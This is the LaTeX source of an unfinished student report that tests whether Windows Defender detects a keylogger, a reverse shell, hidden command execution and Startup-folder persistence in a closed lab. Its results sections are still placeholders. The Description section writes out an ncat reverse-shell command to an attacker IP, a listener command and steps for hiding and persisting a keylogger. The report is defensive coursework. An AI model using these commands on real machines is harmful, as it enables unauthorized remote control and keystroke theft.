	\documentclass[11pt]{article}
	%% Packages:
\usepackage{amsmath}
\usepackage[document]{ragged2e}
\usepackage{titlesec}
\usepackage{float}
\usepackage{graphicx}
\usepackage{caption}
\usepackage{subcaption}
\usepackage[dvipsnames]{xcolor}
\usepackage[T1]{fontenc}
\usepackage{helvet}
\usepackage[hidelinks]{hyperref}
\usepackage{amssymb}
\usepackage{enumitem}
\usepackage{comment}
\usepackage{soul}
\usepackage[margin=1in]{geometry} % Set margins to 1 inch
\usepackage{setspace}
\usepackage{graphicx} % For including images
\usepackage{subcaption} % For creating subfigures
\usepackage{float} % For the [H] placement specifier
\usepackage{xcolor}
\usepackage{hyperref} % For clickable links, ToC, etc.
\usepackage{amsmath} % For math equations
\usepackage{amsfonts} % For math fonts
\usepackage{amssymb} % For math symbols
\usepackage{listings} % For code listings
\usepackage{enumitem} % For custom lists
\usepackage{booktabs} % For professional tables
\usepackage{longtable} % For tables that span multiple pages
\usepackage{array} % For more advanced table column formatting
\usepackage{fancyhdr} % For custom headers and footers
\usepackage{lastpage} % To get the total number of pages
\usepackage{csquotes} % Context sensitive quotation facilities
\usepackage{tabularx} % For tables with fixed width
\usepackage{colortbl} % For colored table cells
\usepackage{soul} % For highlighting text (use with caution)
\usepackage{tikz} % For drawing graphics directly in LaTeX
\usepackage{indentfirst}
%% Personalized adjustements: 

% Math operator:
\DeclareMathOperator{\sech}{sech}

% VUB colors: 
\definecolor{orange}{RGB}{234, 82, 0} 
\definecolor{blue}{RGB}{26, 55, 101}

% Margins:
\addtolength{\skip\footins}{0.3 cm}
\renewcommand*\footnoterule{}

% Adjustement of section, subsection & subsubsection: 

\titleformat{\section}[block]
{\normalfont\Large\bfseries \fontfamily{phv}\selectfont \color{orange}}
{\thesection}{0.5cm}{}

\titleformat{\subsection}[block]
{\normalfont\large\bfseries \fontfamily{phv}\selectfont \color{blue}}
{\thesubsection}{0.5cm}{}

\titleformat{\subsubsection}[block]
{\normalfont\small\bfseries \fontfamily{phv}\selectfont \color{blue}}
{\thesubsubsection}{0.5cm}{}
	\usepackage{setspace}
	\usepackage{graphicx}    % For including images
	\usepackage{subcaption}  % For creating subfigures
	\usepackage{float}       % For the [H] placement specifier
	\usepackage{xcolor}
	\setlength{\parskip}{0pt}
	\setcounter{secnumdepth}{2}
	
	\onehalfspacing
	
	\begin{document}
		\justifying
		\begin{titlepage}
	\begin{center}
            \begin{figure}
                \centering
                
\includegraphics[scale=0.3]{Images/logo.png}
            \end{figure}
		\vspace*{\fill}
            \normalsize
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{\textbf{ELEC-H404}}}\\
            \vspace{0.2cm}
		\Huge
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Advanced Security Evasion in Windows}}\\
        \end{center}
	\begin{center}	
		\vspace{0.5cm}
            \Large
            {\fontfamily{phv}\selectfont
		\textcolor{blue}{\textbf{Andranik Voskanyan\\
								Cédric Sipakam\\
								Zinar Mutlu}}}\\
	\end{center}
        \vspace*{\fill}
        \begin{FlushRight}
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Professor}}\\
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{Bruno Da Silva}}\\
            \vspace{0.6cm}
%            {\fontfamily{phv}\selectfont
%            \textcolor{orange}{Teaching Assistants}}\\
%            {\fontfamily{phv}\selectfont
%            \textcolor{blue}{
%                Lucas Stefanidis\\
%                Navid Ladner 
%            }}\\
%            \vspace{0.6cm}
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Academic Year}}\\
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{2024 - 2025}}\\
            \vspace{0.6cm}
            {\fontfamily{phv}\selectfont
            \textcolor{orange}{Faculty}}\\
            {\fontfamily{phv}\selectfont
            \textcolor{blue}{Electrical Engineering}}
        \end{FlushRight}



\end{titlepage}
		\tableofcontents
		\newpage
		\listoffigures
		\newpage
		
		\begin{abstract}
		This project investigates the efficacy of Windows security solutions, primarily focusing on Windows Defender, in detecting and responding to advanced stealthy attack techniques. The study evaluates a range of common attacker methodologies including the deployment of keyloggers, creation of backdoors for remote access, non-visual command execution leveraging built-in system tools, and a persistence mechanism designed to maintain unauthorized access. The evaluation involved executing these attack scenarios in a controlled environment while meticulously logging system behavior, network activity, and Windows event logs to analyze the detection capabilities and response of the security software.
		\end{abstract}
		
		\newpage
		\section{Introduction}
		\subsection{Problem Statement and Motivation}
		The Landscape of cyber threats is constantly evolving, with attackers developing increasingly sophisticated techniques to evade detection by security systems. Detecting these stealthy attacks is a significant challenge for individuals and organization alike. Understanding the methods attackers use to bypass security measures is crucial for defenders to improve their strategies, tools, and overall security posture. This project aims to shed light on these evasion techniques within the Windows operating System, a prevalent target for cyber-attacks.
		\subsection{Project Aims and Objectives}
		The Primary aims of this project are:
		\begin{itemize}
			\item To evaluate the detection capabilities of Windows Defender, [...], and [....] against a set of specific attacker techniques
			\item The attacker techniques investigated include:
				\begin{itemize}
					\item Keylogger deployment
					\item Backdoor creation and remote access
					\item Non-visual command execution and process hiding
					\item Process injection and memory manipulation
					\item Persistence techniques
				\end{itemize}
			\item To analyze system behavior, network activity, and event logs during these simulated attacks to understand how security solutions respond and what artifacts are generated
			\item To asses the effectiveness of various evasion methods employed by attackers
		\end{itemize}
		\subsection{Scope of the project}
		This project focuses on:
		\begin{itemize}
			\item \textbf{Operating System:} Windows 11 Home
			\item \textbf{Primary Security Solution:} Windows Defender, [...], [....]
			\item \textbf{Attacker Tools:} A combination of publicly available tools: Microsoft Windows Command Prompt, Netcat/Nmap, Python.
			\item \textbf{Exclusions:} This study does not cover all possible evasion techniques or every security product available on the market. The focus is on the selected methods.
		\end{itemize}
		
		
		
		\section{Background}
			\subsection{Fundamentals of Security Evasion}
			Security Evasion refers to the set of techniques and strategies employed by attacker to avoid detection by security mechanism such as antivirus software, Endpoint Detection and Response Solutions (EDR), Intrusion Detection/Prevention Systems (IDS/IPS), and firewalls. The primary goal of evasion is to allow malicious activities to proceed unnoticed, enabling attackers to achieve their objectives, which could range from data heft and espionage to system disruption or financial gain. Attacker motivations are diverse but often include maintaining stealth to ensure long-term access a.k.a persistence, escalating privileges to gain deeper system control, and exfiltrating sensitive information without triggering alarms.
			
			\subsection{Overview of Windows Security Architecture}
				The Windows Operating System incorporates a multi-layered security architecture designed to protect against a wide array of threats.
				\begin{itemize}
					\item \textbf{Windows Defender Antivirus:} This is the built-in anti-malware solution in Windows. Its features include:
						\begin{itemize}
							\item Real-time scanning
							\item Behavior monitoring
							\item Anti-malware Scan Interface (AMSI)
							\item Cloud-delivered protection
							\item Network Inspection System (NIS)
							\item Controlled Folder Access
						\end{itemize}
				\item \textbf{Windows Event Logging:} The OS records a wide variety of events related to system, security, application, PowerShell, and other application. Specific event IDs can indicate suspicious activities, login attempts, process creation, and security policy changes.
				\item \textbf{User Account Control (UAC):} This helps prevent unauthorized changes to the system by prompting for permission or an administrator password before performing actions that could potentially affect the computer's operation or security.
				\item \textbf{Windows Firewall:} Controls network traffic flowing in and out of the system, based on configured rules.
				\item \textbf{BitLocker Drive Encryption:} Provides full-disk encryption to protect data at rest
				\item  \textbf{AppLocker/Windows Defender Application Control (WDAC):} Allows administrators to control which applications and files users can run.
				\end{itemize}
				
				\begin{figure}[H]
					\centering
					
\includegraphics[width=\linewidth]{Pictures/windowssecuritylayer}
					\caption{Components of the Windows Security Architecture}
					\label{fig:windowssecuritylayer}
				\end{figure}
				
				
			\subsection{Theoretical Overview of Attacker Techniques Investigated}
				\subsubsection{Keyloggers}
					A Keylogger is a type of surveillance software or hardware that records every keystroke made on a computer. It can be used to collect sensitive information suck as login credentials, credit cards numbers, personal messages and other confidential data. Keyloggers can be software-based, that is a process running on the victim's machine, or hardware-based. This project focuses on software-based keyloggers.
					The common method of detecting a Keylogger are called \textbf{Indicators of Compromise (IOCs)}; such as:
					\begin{itemize}
						\item Unusual network traffic: if the keylogger sends logs remotely
						\item Unexpected new processes or files (often hidden)
						\item Performance degradation: less common with well-written keyloggers
						\item anti-keylogger software alerts
					\end{itemize}
					The script 'keylog.py' is an example of a software-based keylogger.
					
				\subsubsection{Backdoors and Remote Access}
					A backdoor is a covert method of bypassing normal authentication or encryption in a computer system, and application, or an embedded device.\par
					It allows unauthorized remote access to a system, enabling attackers to control the compromised machine, exfiltrate data, or use it as a pivot point for further attacks.\par
					Backdoors can be established trough various means, including exploiting vulnerabilities, installing malicious software, or using legitimate remote administration tools for malicious purposes.\par
					A common method is \textbf{Reverse Shells}, in which the compromised machine initiates an outbound connection to an attacker-controlled server, often used to bypass firewalls that restrict inbound connections. The command \texttt{'ncat 172.20.10.15 12345 -e cmd.exe'} in \texttt{'commands.bat'} code used in the project attempts to establish a reverse shell, by creating a TCP/IP connection from the victim's computer to the attacker IP address through a free port.\par
					Another method for backdoor and remote access is \textbf{Bind Shells} in which the compromised machine opens a listening port, waiting for the attacker to connect.\par
					\textbf{The Indicator of Compromises} that can be used to detect such an access are an unexpected network connection (especially to unusual IP addresses or ports), unexplained system behavior, or new user accounts
		
				\subsubsection{Non-Visual Command Execution and Process Hiding}
					Attackers often need to execute commands on a compromised system without alerting the user or security software. Common methods include the usage of:
					\begin{itemize}
						\item \textbf{PowerShell:} which is a powerful command-line shell and scripting language built on .NET. The most potent way of achieving stealth using PowerShell that Attackers use is \textbf{Fileless Execution Attacks}, which runs commands or entire scripts directly in-memory without the need of writing them on the disk
						\item \textbf{Living Off The Land Binaries and Scripts (LOLBAS):} Which is used in this study. To achieve this, attacker use legitimate, pre-installed system tool and scripts to perform malicious actions. This helps them blend in with normal activity and avoid detection based on known malicious files. Example include \texttt{'cmd.exe'}, \texttt{'powershell.exe'}, \texttt{'rundll32.exe'}, \texttt{'certutil.exe'}, etc.
						In this study, the use of \texttt{'start /min cmd /c'} in \texttt{'cmd\_commands.bat'} is an example of attempting to run commands in a hidden window
						\item \textbf{Process Hiding Techniques:} Methods to conceal malicious processes from casual inspection by users or basic monitoring tools. this can involve techniques like running processes with hidden windows (\texttt{'start /min'}), process Doppelganging, or more advanced rootkit-like methods. The command \texttt{'attrib +h'} in \texttt{'cmd\_commands.bat'} is used for file hiding.
					\end{itemize}
				\subsubsection{Process Injection and Memory Manipulation}
				Process injection is a technique where an attacker runs arbitrary code within the address space of a separate live process.\par
				By injecting malicious code into a legitimate process, attackers can evade detection, access process's memory and resources, and potentially elevate privileges.\par
				Common process injection techniques include:
				\begin{itemize}
					\item \textbf{DLL injection:} Forcing a legitimate process to load a malicious Dynamic Link Library (DLL)
					\item \textbf{Shellcode Injection:} Writing custom machine code directly into the memory space of a target process and then causing it to execute
					\item \textbf{Process Hollowing (RunPE):} Creating a new process in a suspended state, replacing its legitimate code with malicious code, and then resuming its execution
					\item \textbf{Thread Execution Hijacking:} Modifying the execution path of an existing thread in a target process to execute injected code
				\end{itemize}
				\subsubsection{Persistence Techniques}
				Persistence refers to techniques that attackers use to maintain access to a compromised system across reboots, credential changes, or other system interruptions.\par
				Achieving persistence allows attacker to continue their malicious activities over an extended period of time.\par
				Common methods used to achieve this are:
				\begin{itemize}
					\item \textbf{Startup Locations:} Placing malicious executable or scripts in Windows Startup folders. This is the method used in this study.
					\item \textbf{Registry Run Keys:} Adding entries to various \texttt{'Run'} or \texttt{'RunOnce'} registry keys
					\item \textbf{Scheduled tasks:} Creating schedule tasks that execute malicious code at specified times or triggers
					\item \textbf{Windows Services:} Creating or modifying Windows services to run malicious programs
					\item \textbf{DLL Hijacking:} Exploiting how applications search for and load DLLs.
					\item \textbf{WMI Event Subscriptions:} Using Windows Management Instrumentation (WMI) to trigger malicious actions based on system events.
				\end{itemize}



		\section{Description}
			This section details the setup of the test environment, configuration of security solutions, step-by-step implementation of the attacker techniques, and the strategy for monitoring and data collection.
		
			\subsection{Test Environment Setup}
				The Attacker uses Kali Linux as its OS, whereas the Defender uses Windows 11 Home. They are connected in the same sub-network via a closed Local Area Network through a Mobile Hotspot.\par
				The tools used by the attacker essentially include Netcat, Windows Command Prompt and Python.
				\begin{figure}[H]
					\centering
					
\includegraphics[width=1\linewidth]{Pictures/test_lab_env}
					\caption{Lab Environment}
					\label{fig:testlabenv}
				\end{figure}
				
			\subsection{Security Solution Configuration}
				\textcolor{red}{[ADD ALL THE SECURITY TOOLS USED AND DESCRIPTION]}
				
			\subsection{Implementation of Attacker Techniques}
				\subsubsection{Step 1 - Non Visual Command Execution and Process Hiding}
					The command \texttt{'start /min cmd /c'} in \texttt{'cmd\_commands.bat'} were used to execute commands using \texttt{'cmd.exe'} in a way that avoids visible windows and to test detection of these hidden operations. \texttt{'cmd.exe'} via the command
				\subsubsection{Step 2 - Backdoor Creation and Remote Access}
					The objective is to establish a reverse shell from the victim machine to the attacker machine using Netcat and asses if Security Tools like Windows Defender detects the connection attempt or the tool used.
					The Tools and Scripts Used were \texttt{'ncat.exe'}, which is a part of Nmap, installed via WinGet as per \texttt{'cmd\_commands.bat'}. The file \texttt{cmd\_commands.bat} were used to initiate the Ncat reverse shell connection. To establish the connection to the attacker machine, a Netcat listener were used through the command \texttt{'nc-lvnp 12345'}\\\par
					
					 \textbf{Execution Procedure}
						\begin{enumerate}
							\item On the attacker machine, a Netcat listener was started: \texttt{'nc-lvnp 12345'}
							\item On the victim machine, \texttt{'cmd\_commands.bat'} was executed
							\item The batch script attempted to install Nmap (if not present) silently using WinGet and then initiated the reverse shell \texttt{'start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"'}, where \texttt{'172.20.10.15'} is the attacker's IP address and \texttt{'12345'} is a free port
							\item If successful, a command prompt session from the victim machine appeared on the attacker's Netcat listener
							\item Finally, commands where executed remotely from the attacker's computer controlling the victim's computer trough a Command Prompt Terminal
						\end{enumerate}

				\subsubsection{Step 3 - Keylogger Deployment}
					To deploy a Python-based keylogger, make it persistent and assess if Windows Defender detect the script, its execution, or its output file, the tools and scripts used were: \texttt{'keylog.py'}, which is a python script using the \texttt{pyinput} library to capture keystrokes and save them to \texttt{'key.txt'}. The script \texttt{'cmd\_commands.bat'} was used to automate parts of the deployment, including copying \texttt{'keylog.py'} to the Startup folder for persistence and hiding the script file.\\\par
					
					\textbf{Execution Procedure}
						\begin{enumerate}
							\item the keylog.py script and \texttt{'cmd\_commands.bat'} were transferred to the victim machine
							\item \texttt{cmd\_commands.bat} was executed on the victim machine
							\item the batch script performed the following actions:
							\begin{itemize}
								\item Copied \texttt{'keylog.py'} to the user's Startup folder
								\item Used \texttt{'attrib +h'} to hide \texttt{'keylog.py'} in the Startup folder and the batch script itself
								\item Initiated the execution of \texttt{'keylog.py'} using python
							\end{itemize}
							\item Keystrokes were entered on the victim machine
							\item The content of key.txt was checked to verify the keylogger's operation
						\end{enumerate}
			
				\subsubsection{Step 4 - Persistence}
					The objective was to establish persistence using the Startup folder, and evaluate Windows Defender's ability to detect or prevent these modifications. To achieve that, the \texttt{'cmd\_commands.bat'} simply copied itself in the Startup folder.
				
				
				
			\subsection{Monitoring and Data Collection Strategy}
				\subsubsection{Security Solution Logs}
				\begin{itemize}
					\item \textbf{Windows Defender:}
					\begin{itemize}
						\item Alerts and detection history were accessed via the Windows Security app.
						\item Event logs for Windows Defender: `Microsoft-Windows-Windows Defender/Operational` and `Microsoft-Windows-Windows Defender/WHC` (Event Viewer). Event IDs like 1006, 1007 (detection), 1116, 1117 (action taken) were monitored.
					\end{itemize}
					\item \textbf{Other AV/EDR (if used):} Logs were collected according to the specific solution's interface (e.g., management console, local log files).
				\end{itemize}
				
				\subsubsection{System-Level Logs}
				\begin{itemize}
					\item \textbf{Windows Event Logs (via Event Viewer):}
					\begin{itemize}
						\item \textbf{Security Log ():} Monitored for logon events (4624, 4625), process creation \texttt{`Security.evtx`}(4688 - if enabled), object access, privilege use.
						\item \textbf{System Log (\texttt{`System.evtx`}):} Monitored for service creation/modification, errors.
						\item \textbf{Application Log (\texttt{`Application.evtx`}):} Monitored for application errors or relevant events.
						\item \textbf{PowerShell Logs:}
						\begin{itemize}[label=$\circ$]
							\item \texttt{`Microsoft-Windows-PowerShell/Operational`}: Event ID 4103 (Module Logging - pipeline execution details), 4104 (Script Block Logging - actual script content). These are critical for de-obfuscating and analyzing PowerShell attacks.
						\end{itemize}
						\item \textbf{Sysmon Logs (if configured):} `Microsoft-Windows-Sysmon/Operational`. Key Event IDs:
						\begin{itemize}[label=$\circ$]
							\item 1: Process creation
							\item 3: Network connection
							\item 7: Image loaded (DLLs)
							\item 11: FileCreate
							\item 12, 13, 14: Registry event (CreateKey, SetValue, DeleteKey)
							\item 22: DNSEvent
						\end{itemize}
					\end{itemize}
					\item \textbf{Process Monitoring (Process Monitor - ProcMon):}
					\begin{itemize}
						\item ProcMon was run during attack execution with filters set to capture relevant process activity (e.g., focusing on `cmd.exe`, `powershell.exe`, the target process for injection, or any suspicious new processes).
						\item Logs were saved in PML format and then converted to CSV/XML for analysis.
						\item Captured data included process creation, file I/O, registry activity, and network connections.
					\end{itemize}
				\end{itemize}
				
				\subsubsection{Network Traffic Analysis}
				\begin{itemize}
					\item \textbf{Wireshark/tcpdump:}
					\begin{itemize}
						\item Network traffic was captured on the victim machine's interface (or a dedicated monitoring interface in the virtual network).
						\item Filters were used to focus on traffic related to the attacker's IP, C2 domains (if any), or suspicious protocols/ports.
						\item PCAP files were saved for later analysis, especially for backdoor connections or data exfiltration attempts.
					\end{itemize}
				\end{itemize}
				
				\subsubsection{Performance Logging}
				\begin{itemize}
					\item \textbf{`activity\_logger.py`:} The script \texttt{`activity\_logger.py`} was intended to monitor the CPU and memory usage of the Windows Defender process (`SecurityHealthService.exe` or more commonly `MsMpEng.exe` - Antimalware Service Executable).
					\begin{itemize}
						\item The script was run before, during, and after attack scenarios for a specified duration (e.g., 60 seconds as per the script).
						\item It logged timestamps, CPU usage (\%), and memory usage (\%).
						\item The output data was used to generate plots showing resource impact.
					\end{itemize}
					\item \textbf{Task Manager/Resource Monitor:} Used for manual observation of system performance during attacks.
				\end{itemize}
				\subsubsection{Data Aggregation}
				All collected logs (Event logs, ProcMon CSVs, Wireshark PCAPs, Defender alert screenshots, performance data) were organized into folders corresponding to each attacker technique and test run. A spreadsheet was maintained to correlate findings, detection status, and relevant log entries.
				
			\subsection{Evaluation Criteria}
			\begin{itemize}
				\item \textbf{Definition of "Detection":} A technique was considered "detected" if:
				\begin{itemize}
					\item Windows Defender (or other tested solution) generated an explicit alert identifying the activity or file as malicious or suspicious.
					\item The malicious process was automatically terminated or quarantined.
					\item A specific, unambiguous log entry was created by the security solution that directly indicated malicious behavior (even if not a high-priority alert).
					\item For persistence, detection includes identifying and/or removing the persistence mechanism (e.g., during a scan or by real-time protection upon creation).
				\end{itemize}
				\item \textbf{Effectiveness Metrics:}
				\begin{itemize}
					\item \textbf{Detection Rate:} For each technique, the percentage of test runs where it was detected.
					\item \textbf{Bypass Rate:} Percentage of test runs where the technique successfully evaded detection.
					\item \textbf{Log Evidence:} Even if not automatically alerted, the presence of sufficient evidence in system logs (Event Logs, Sysmon, ProcMon) that would allow a human analyst to identify the malicious activity. This was qualitatively assessed.
				\end{itemize}
				\item \textbf{Response Time:}
				\begin{itemize}
					\item Time from attack execution to alert generation (if applicable and measurable). This can be difficult to measure precisely without specialized tools. For this project, it was noted qualitatively (e.g., "immediate alert," "delayed detection after X minutes").
				\end{itemize}
				\item \textbf{Performance Impact:}
				\begin{itemize}
					\item Assessed using data from \texttt{`activity\_logger.py`} and manual observation, focusing on CPU and memory spikes or sustained high usage by Windows Defender during attacks compared to baseline.
				\end{itemize}
			\end{itemize}

		\section{Experimental Results}
			This section presents the objective findings of the experiments conducted. Results are organized primarily by attacker technique, detailing the detection status by Windows Defender, [...], [...], relevant log evidence and observations regarding the performance of security solutions.
			\textcolor{red}{[ADD THE RESULTS]}
			\subsection{Keylogger Deployment and Detection}
			\subsection{Backdoor Creation and Remote Access}
			\subsection{Non-Visual Command Execution and Process Hiding}
			\subsection{Process Injection and Memory Manipulation}
			\subsection{Persistence Techniques}
			\subsection{Security Solution Performance Analysis}
			\subsection{Comparative Analysis}
			
		\section{Discussion and Conclusion}
		\textcolor{red}{[ADD DISCUSSION]}
			\subsection{Interpreation of Results}
			\subsection{Comparison with Expected Outcomes/Litterature}
			\subsection{Challenges Encountered and Limitations of the Study}
			\subsection{Conclusion}
			\subsection{Future Perspectives}
			
		\section{References}
		
	\end{document}